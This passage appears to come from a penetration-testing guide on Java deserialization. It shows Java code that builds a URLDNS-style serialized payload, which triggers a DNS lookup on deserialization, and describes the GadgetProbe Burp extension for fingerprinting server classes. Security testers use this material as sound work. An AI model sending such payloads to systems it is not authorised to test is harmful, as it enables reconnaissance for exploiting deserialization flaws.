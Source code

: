```java
    ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

    // During the put above, the URL's hashCode is calculated and cached.
    // This resets that so the next time hashCode is called a DNS lookup will be triggered.
    final Field field = u.getClass().getDeclaredField("hashCode");
    field.setAccessible(true);
        field.set(u, -1);

        //Test the payloads
        GeneratePayload(ht, "C:\\Users\\Public\\payload.serial");
    }
}


class SilentURLStreamHandler extends URLStreamHandler {

    protected URLConnection openConnection(URL u) throws IOException {
        return null;
    }

    protected synchronized InetAddress getHostAddress(URL u) {
        return null;
    }
}
```

### More information

* [https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)
* In the original idea thee commons collections payload was changed to perform a DNS query, this was less reliable that the proposed method, but this is the post: [https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/](https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)

## GadgetProbe

You can download [**GadgetProbe**](https://github.com/BishopFox/GadgetProbe) from the Burp Suite App Store (Extender).

**GadgetProbe** will try to figure out if some **Java classes exist** on the Java class of the server so you can know **if **it's **vulnerable **to some known exploit.

### How does it work

**GadgetProbe **will use the same **DNS payload of the previous section** but **before **running the DNS query it will** try to deserialize an arbitrary class**. If the **arbitrary class exists**, the **DNS query **will be **sent **and GadgProbe will note that this class exist. If the **DNS **request is **never sent**, this means that the **arbitrary class wasn't deserialized **successfully so either it's not present or it''s** not serializable/exploitable**.
